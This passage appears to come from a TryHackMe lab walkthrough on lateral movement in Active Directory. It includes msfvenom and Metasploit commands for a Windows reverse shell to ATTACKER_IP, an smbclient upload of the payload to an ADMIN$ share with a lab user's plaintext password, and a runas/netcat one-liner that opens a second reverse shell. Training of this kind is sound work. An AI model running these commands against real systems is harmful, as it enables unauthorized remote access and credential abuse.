 To create a reverse shell, we can use the following command:

**Note:**Â Since you will be sharing the lab with others, you'll want to use a different filename for your payload instead of "myservice.exe" to avoid overwriting someone else's payload.

```shell-session
user@AttackBox$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```

We will then proceed to use t1_leonard.summers credentials to upload our payload to the ADMIN$ share of THMIIS using smbclient from our AttackBox:

```shell-session
user@AttackBox$ smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
 putting file myservice.exe as \myservice.exe (0.0 kb/s) (average 0.0 kb/s)
```

Once our executable is uploaded, we will set up a listener on the attacker's machine to receive the reverse shell fromÂ `msfconsole`:

```shell-session
user@AttackBox$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.10.16:4444
```

Alternatively, you can run the following one-liner on yourÂ LinuxÂ console to do the same:

```shell-session
user@AttackBox$ msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
```

SinceÂ `sc.exe`Â doesn't allow us to specify credentials as part of the command, we need to useÂ `runas`Â to spawn a new shell with t1_leonard.summer's access token. Still, we only have SSH access to the machine, so if we tried something likeÂ `runas /netonly /user:ZA\t1_leonard.summers cmd.exe`, the new command prompt would spawn on the user's session, but we would have no access to it. To overcome this problem, we can use runas to spawn a second reverse shell with t1_leonard.summers access token:

THMJMP2: Command Prompt

```shell-session
C:\> runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
```

**Note:**Â Remember that since you are usingÂ `runas`Â with theÂ `/netonly`Â option, it will not bother to check if the provided credentials are valid (more info on this on theÂ [EnumeratingÂ ADÂ room](https://tryhackme.com/room/adenumeration)), so be sure to type the password correctly. If you don't, you will see some ACCESS DENIED errors later in the room.
